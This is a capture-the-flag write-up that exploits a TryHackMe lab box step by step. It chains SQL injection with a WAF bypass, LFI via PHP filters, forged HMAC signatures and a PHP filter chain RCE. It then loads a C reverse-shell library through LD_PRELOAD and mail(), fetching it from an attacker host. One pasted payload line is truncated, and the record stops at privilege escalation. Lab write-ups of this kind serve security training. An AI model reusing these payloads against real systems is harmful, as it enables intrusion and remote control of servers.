This box is rated hard difficulty on THM. It involves us exploiting SQL injection to extract an HMAC-SHA256 signing secret, allowing us to perform a PHP filters chain exploit to gain RCE on the system via an LFI vulnerability in a certain PHP file. Once on the system, we escape a Docker container and enumerate a database to grab the root flag inside a MariaDB instance.

_A place where you start at some point, and you have to go back to it in the end._

## Scanning & Enumeration
I kick things off with an Nmap scan against the given IP to find all running services on the host.

```
$ sudo nmap -p22,80 -sCV 10.66.189.248 -oN fullscan-tcp

Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-13 01:05 CST
Nmap scan report for 10.66.189.248
Host is up (0.042s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.62 ((Debian))
|_http-title: Image Grid
|_http-server-header: Apache/2.4.62 (Debian)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.15 seconds
```

There are just two ports open:
- SSH on port 22
- An Apache web server on port 80

Not much to to on this version of OpenSSH without credentials so I leave a few Gobuster scans in the background to find subdirectories/subdomains before heading over to the webpage. The landing page shows an storage place for cat pictures with a few albums available.



There are three separate tabs each holding a few JPGs of normal cat photos. I notice that each URL contains a hash and path parameter for each image stored inside of `/var/www/images/`. Ignore the QR code in Smart Cats, it's a rickroll :).



Capturing a request to one of these photos shows that we are indeed required to use both of these for a valid query. At this point, I tried parameter pollution payloads to try and trick the server into overriding the file path of the `.jpg` to be `/etc/passwd`. 


This doesn't work and it looks like the server takes the hash value of each file and compares it to the one provided in the URL. The `image.php` does not seem to be very prone to exploits so I swap over to `album.php`. 

## SQL Injection
I'm thinking that since these albums are divided into separate types, they're being stored in a database and that the album.php takes in a query to display all images within that table. I make a cURL request to that file and the server throws a SQL syntax error.



Awesome, I'm just going to send a captured request over to SQLmap since I've done very similar steps in other boxes multiple times already today. 

```
sqlmap -r cat.req --batch
```



The `short_tag` parameter is prone to SQL injection in a few ways, the easiest being a `UNION` statement where we can just append different queries to enumerate the database. Here are a few good reads for reference if you decide to do this step manually (good practice as well).

[Port Swigger Article](https://portswigger.net/web-security/sql-injection)
[PayloadsAllTheThings SQLi cheat sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md#extract-database-with-information_schema)

First we want to list all databases available to us.

```
sqlmap -r cat.req --dbs
```



That just gives us a web DB which we can pull tables/columns from.

```
sqlmap -r cat.req -D web --tables
```



Now let's dump both of these for any potential information not listed on the website.

```
sqlmap -r cat.req -D web -T albums --dump
```



```
sqlmap -r cat.req -D web -T images --dump
```



Well, that's underwhelming but at least we know that there's nothing else to find under those directories. Since `UNION` statements were accepted, I tested a few payloads to write a webshell to the server in a malicious query (yes that's possible), but it seemed like stacked queries were disabled meaning that we can't use an `INSERT INTO` statement to write somewhere. It's worth mentioning that special characters such as `/` or `;` are sniped by the WAF so this has turned into a dead end in regards to retrieving sensitive info.

I see no real attack vectors on the album file, so it looks like we're meant to exploit some kind of LFI vulnerability in the `image.php` file after all. Before jumping to any conclusions, I want to see how these hash values or being stored or included. Whenever I visited any of the albums in Burp Suite, the page hung for a second or two which most likely means that these hashes are being generated. The fact that we didn't find a database for them either strengthens that theory. 

## LFI & Nested Union Queries
Recalling a successful attempt to enumerate the database name via `information_schema.schemata`, we can repeat this for other crucial information. I run SQLmap again but include a `--statement` flag to figure out what SQL query we're injecting our payload into.

```
$ sqlmap -u 'http://10.66.189.248/album.php?short_tag=smart' -p short_tag --risk 3 --level 5 --batch -D web --statement

[02:16:15] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.62, PHP 8.4.4
back-end DBMS: MySQL >= 5.0 (MariaDB fork)
[02:16:15] [INFO] fetching SQL statements
[02:16:15] [INFO] resumed: 'SELECT id from albums where short_tag = 'smart' AND (SELECT 3681 FROM(SELECT COUNT(*),CONCAT(0x71706b...
SQL statements [1]:
[*] SELECT id from albums where short_tag = 'smart' AND (SELECT 3681 FROM(SELECT COUNT(*),CONCAT(0x71706b7671,(SELECT MID((IFNULL(CAST(INFO AS CHAR),0x20)),154,51) FROM INFORMATION_SCHEMA.PROCESSLIST),0x717a787871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'cfcW'='cfcW'
```

The server is just selecting the `id` field from the albums table from our specified query. Something worth noting is that by supplying a successful `short_tag` (ie. cute or smart), the response populates the file paths for such images.



So my guess is that this application does something like store the input from our `short_tag` query and then send it to another statement where the result is processed to populate files within it. I'm not exactly sure that this is going on but the flow would look something like this:

```
SELECT id FROM album where short_tag = [short_tag]

and then

SELECT * from images WHERE album_id = [previous query result]
```

Since album.php was unsanitized, I'm gonna go out on a limb and say this definitely isn't either. Now we just need to test this hypothesis by somehow manipulating that second query to be an arbitrary file path, such as `/etc/passwd` for a proof of concept. Note that we don't need to provide a hash value as the server will calculate that on its own.

Judging by the output of a simple `UNION` statement, we have control over the `album_id` field. Make sure to URL encode if you're testing in Burp Suite or it will return a `400 Bad Request`.

```
/album.php?short_tag=doesnotexist' UNION SELECT 0-- -
```



Now this was the part I was stuck on for a while, I knew that we needed to pass our value into another query, but we couldn't stack them with special characters. Doing a deep-dive on nested SQL queries finally gave me the answer I was looking for. I knew of this technique but had never integrated it within any exploits so this was a very interesting topic for me.

In short, a nested query is where we supply a subquery within our main payload. Here's an example, assume a web app builds this query with unsanitized input:

```
SELECT * FROM users WHERE username = '$input';
```

An attacker can use a nested SQL query to check if any admin users exist. Note the `SELECT` statement encased in parenthesis inside of the subsequent `OR` statement.

```
' OR (SELECT COUNT(*) FROM users WHERE role='admin') > 0 --
```

In turn, the following SQL code executes on the server.

```
SELECT * FROM users 
WHERE username = '' 
OR (SELECT COUNT(*) FROM users WHERE role='admin') > 0 --';
```

In our case we'd like to provide the second query, which intakes the `album_id` field, with another query that contains our file path. To test if this works, I repeat the earlier step but pass in a statement that will always resolve to true. If so, the page should display all pictures in the database.

```
/album.php?short_tag=doesnotexist' UNION SELECT "0 OR 1=1-- -"-- -
```



Awesome, now we know that it's possible to manipulate the path parameter in image.php, we can provide it with /etc/passwd in an attempt for LFI.

```
/album.php?short_tag=doesnotexist' UNION SELECT "0 UNION SELECT 1,2,'/etc/passwd'-- -"-- -
```



Whoops, the forward slashes are being detected as a hacking attempt. We can just hex encode our file path to maintain functionality and bypass the WAF.



Be sure to prepend 0x to the string and give it a try.

```
/album.php?short_tag=doesnotexist' UNION SELECT "0 UNION SELECT 1,2,'0x2f6574632f706173737764'-- -"-- -
```



Upon a successful attempt, the server responds with a value of `9fa6eacac1714e10527da6f9cf8570e46a5747d9ace37f4f9e963f990429310d` for the hash and an image path pointing towards `/etc/passwd`. Throwing that URL into a GET request will print the contents of the file.



Alright, we can successfully read files on the server but there don't seem to be any users with a shell other than root. **How do we get remote command execution from LFI?** It's possible to chain PHP filters to basically include code within our own fabricated file (more on that later). Before getting to that, we are going to need to know how exactly the application calculates the hash value for each file as well as any secret keys used in the process.

## Initial Foothold via PHP Filters Chain
I try repeating the hex encoding process to read the album.php file, but it kept on throwing different errors at me. Instead, by using a PHP wrapper to base64 encode the resource, it forces the application to enumerate files on the server and we won't have to guess where it's stored at.

```
php://filter/convert.base64-encode/resource=album.php
```

We still have to hex encode this and repeat the previous steps, so nothing new there. That results in an encoded block of data that we can decode to read the file's contents.



Parsing the PHP code shows that it includes a dbconfig.php file which should contain the $SECRET_KEY variable we want.

```
$ curl -s 'http://10.66.189.248/image.php?hash=ec6e518b7e39db98affbf2bf2c671d469639503d4fee97bf7cf0f0a1319075d9&path=php://filter/convert.base64-encode/resource=album.php' | base64 -d

<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="UTF-8">
<meta name="viewport" content="width=device-width, initial-scale=1.0">
<title>Image Grid</title>
<link rel="stylesheet" href="/style.css"> <!-- Link to external CSS file -->
</head>
<body>

<?php

include('dbconfig.php');

try {
    // Create a new PDO instance
    $conn = new PDO("mysql:host=$servername;dbname=$dbname", $username, $password);
    
    // Set PDO error mode to exception
    $conn->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);
    
    if (preg_match('/[\/;]/', $_GET['short_tag'])) {
        // If it does, terminate with an error message
        die("Hacking attempt");
    }

    $album_id = "SELECT id from albums where short_tag = '" . $_GET['short_tag'] . "'";
    $result_album = $conn->prepare($album_id);
    $result_album->execute();
     
    $r=$result_album->fetch();
    $id=$r['id'];
    
     
    // Fetch image IDs from the database
    $sql_ids = "SELECT * FROM images where album_id=" . $id;
    $stmt_path= $conn->prepare($sql_ids);
    $stmt_path->execute();
    
    // Display the album id
    echo "<!-- Short tag: " . $_GET['short_tag'] . " - Album ID: " . $id . "-->\n";
    // Display images in a grid
    echo '<div class="grid-container">' . "\n";
    foreach ($stmt_path as $row) {
        // Get the image ID
        $path = $row["path"];
        $hash = hash_hmac('sha256', $path, $SECRET_KEY);

        // Create link to image.php with image ID
        echo '<div class="image-container">' . "\n";
        echo '<a href="/image.php?hash='. $hash . '&path=' . $path . '">';
        echo '';
        echo "</a>\n";
        echo "</div>\n";;
    }
    echo "</div>\n";
} catch(PDOException $e) {
    echo "Connection failed: " . $e->getMessage();
}

// Close the connection
$conn = null;

?>
</body>
</html>
```

I repeat the exact same steps for the dbconfig.php file to extract all secrets pertaining to the server's MySQL database.

```
php://filter/convert.base64-encode/resource=album.php
```



Ok we should have all the necessary information to exploit a PHP filters chain exploit to grant us RCE on the box. Notably, the server calculates the hash value with:

```
$hash = hash_hmac('sha256', $path, $SECRET_KEY);
```

Using that, we can make a simple script that calculates our own HMAC-SHA256 hashes using the signing key we just gathered.

```
import sys
import hmac
import hashlib

secret_key = b"an8h6oTlNB9N0HNcJMPYJWypPR2786IQ4I3woPA1BqoJ7hzIS0qQWi2EKmJvAgOW"
path = sys.argv[1].encode()
h = hmac.new(secret_key, path, hashlib.sha256)
signature = h.hexdigest()
print(signature)
```

I test this out by calculating the hash value for album.php and decoding a cURL request while using it. This confirms we can validate any files we give the server using this script to grab a hash for it. 



To convert this LFI vulnerability into remote command execution to grab a shell, we must to use a PHP filters chain. [This article](https://www.synacktiv.com/publications/php-filters-chain-what-is-it-and-how-to-use-it) is great at explaining how the use of PHP filters allows for this exploit to take place.

At a low-level, a PHP filter chain abuses the php://filter wrapper to transform attacker-controlled input through multiple encoding and decoding steps, allowing arbitrary data to be interpreted as executable PHP rather than just read from disk. By chaining filters like base64 decoding and character set conversions, an LFI primitive can be escalated into RCE when the transformed payload is executed in a writable stream such as php://temp.

I'll be using [Synacktiv's php_filter_chain_generator.py](https://github.com/synacktiv/php_filter_chain_generator) script in my trials as they also wrote the article explaining the exploit. This basically uses a bunch of convert operations to transform strings into code that can be executed. We want it our chain to execute user-supplied PHP code, so I give it a simple eval statement

```
python3 ./php_filter_chain_generator.py --chain '<?=eval($_GET[0])?>'
```



To make it a bit easier on ourselves, I make another script that will serve to execute PHP code on the server in an interactive-like style.

```
import hmac
import hashlib
import requests

# Destination endpoint (update the IP)
endpoint = "http://MACHINE_IP/image.php"

# Signing secret key
key_material = b"an8h6oTlNB9N0HNcJMPYJWypPR2786IQ4I3woPA1BqoJ7hzIS0qQWi2EKmJvAgOW"

# Payload path (replace the contents with payload generated from php_filter_chain_generator)
resource_chain = (
    "php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|.encode()

# Create an HMAC object and calculate the digest
hasher = hmac.new(key_material, resource_chain, hashlib.sha256)
digest_value = hasher.hexdigest()

while True:
    # Build query parameters dynamically
    query_args = {
        "hash": digest_value,
        "path": resource_chain,
        "0": input("code> ")  # user-supplied PHP code
    }

    # Issue GET request with a short timeout
    response = requests.get(endpoint, params=query_args, timeout=5)

    # Output server response directly
    output = response.text
    print(output)
```

Now when executing the python script, we should be able to supply system commands. I'll test this with a short id payload to see if it works.



Hmm, it throws an error saying that we made a call to an undefined function. This probably means that the server has disabled certain functions to prevent such a case from happening. We can actually check this using an echo cmd.

```
echo ini_get("disable_functions");
```



Wow, that doesn't leave us a whole lot to work with. I begin researching any functions we're able to actually use in order to execute commands on the system and honestly I couldn't find anything. Shout out to [Jaxafed](https://jaxafed.github.io/) as his writeup on this box led me to this [hacktricks article](https://angelica.gitbook.io/hacktricks/network-services-pentesting/pentesting-web/php-tricks-esp/php-useful-functions-disable_functions-open_basedir-bypass) which explains that some PHP functions such as `mail()` will execute binaries on the system, and in doing so we're able to utilize the `LD_PRELOAD` environment variable to load arbitrary libraries to run anything. If you've ever used this method for privilege escalation, you know how nice it is when this works.

I create a quick shared library in C that executes a bash reverse shell command pointed towards my attacking machine. Stick with bash or sh when trying payloads as it won't be able to use netcat.

```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
  unsetenv("LD_PRELOAD");
  system("bash -c \"bash -i >& /dev/tcp/10.14.101.76/443 0>&1\"");
}
```

Now let's compile it:

```
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
```

Next, I upload it to the server and save it to `/tmp/shell.so` for later use.

```
$ch = curl_init('http://ATTACKER_IP/shell.so');curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);file_put_contents('/tmp/shell.so', curl_exec($ch)); curl_close($ch);
```



The final step in grabbing a shell is to use the `putenv()` function to set the `LD_PRELOAD` variable to our malicious library and execute the mail function after so that it procs our shell. Be sure to have a Netcat listener running at this point too.

```
putenv('LD_PRELOAD=/tmp/shell.so'); mail('c','b','e','v');
```

## Privilege Escalation
Grabbing a shell as `www-data` allows us to enumerate the box internally and we can start looking for routes for privilege escalation. I also upgrade my shell with the script command due to python not being installed.

```
script -qc /bin/bash /dev/null
export TERM=xterm
CTRL+Z
stty raw -echo;fg
ENTER
ENTER
```

